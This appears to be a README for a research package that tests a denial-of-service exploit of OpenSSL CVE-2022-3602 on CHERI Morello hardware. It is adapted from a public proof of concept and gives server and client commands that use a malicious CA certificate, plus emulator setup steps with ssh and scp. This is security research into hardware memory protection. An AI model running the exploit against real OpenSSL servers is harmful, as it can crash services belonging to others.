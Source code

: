 # OpenSSL Vulnerability PoC

Node.JS functions for testing a Denial-of-Service (DoS) attack on OpenSSL
exploiting [CVE-2022-3602](https://nvd.nist.gov/vuln/detail/CVE-2022-3602).

These functions are adapted from the
[malicious client scenario in DataDog/security-labs-pocs@d25e1ac][1]

[1]: https://github.com/DataDog/security-labs-pocs/tree/d25e1ac3a240489cda949114c732793685a1fae6/proof-of-concept-exploits/openssl-punycode-vulnerability/malicious_client

## Usage

These are currently only mocked functions, so the API may change in the future.

```javascript
import { MorelloPurecapOpenSSLTestCase } from "@nqminds/openssl-vuln-poc";

const res = await MorelloPurecapOpenSSLTestCase.run();
console.log(`Server output error logs were: ${res.server.stderr}`);
```

## Bash scripts to implement in JavaScript

### Server

```bash
openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -key certs/server.key.pem  -state -verify 1
```

Results:

- Safe: Server stays active.
- Vulnerable (CHERI Hybrid): malicious payload runs and calls `Abort()`
  - Exit code: 0x86 (`SIGTRAP`)
- Vulnerable (CHERI Purecap): malicious payload is caught by CPU and is killed with `In-address space security exception (core dumped)`
  - Exit code: 0xA2 (`SIGPROT`)

## Client

```bash
openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem  -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state
```

## Running docker commands manually

The following commands should be run automatically by the Node.JS code:

```bash
podman run -it --user root --rm --publish 127.0.0.2:2222:2222/tcp docker.io/aloisklink/cheribuild-edgesec:morello-purecap-20220511 bash -c $'
#!/usr/bin/env bash

set +e # exit on error

su --command \'mkdir /home/ubuntu/.ssh && printf "%s" "$1" > /home/ubuntu/.ssh/cheribsd-ssh-key.pub\' -- ubuntu "n/a" "$1"

# pipes everything on port 2222 to `localhost:2223`
# This is so that we can access the SSH server from outside the docker container
apt-get update && apt-get install socat --yes
socat tcp-listen:2222,reuseaddr,fork tcp:localhost:2223 &

su --command \'cd /home/ubuntu/cheribuild && ./cheribuild.py --run/ephemeral --run/ssh-forwarding-port 2223 disk-image-morello-purecap run-morello-purecap --skip-update\' -- ubuntu

# wait for socat to finish running
wait
' "arg0 (unused)" "$(cat ~/.ssh/id_ed25519.pub)"
```

Wait the ~2/3 minutes the above command will take until you get into a CHERIBSD shell.
Then you can run `pkg64c install --yes openssl-devel-3.0.2` and `pkg64 install --yes openssl-devel-3.0.2`.

Finally, you can run the following `scp` command to copy over the malicious OpenSSL certificates:

```bash
scp -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -r ./certs scp://root@127.0.0.2:2222/
```

### Server

#### Hybrid

(For `purecap`, use `/usr/local/bin/openssl`)

```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"/usr/local64/bin/openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -key certs/server.key.pem -state -verify 1; exit $?"'
```

### Client

```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state; exit $?"'
```
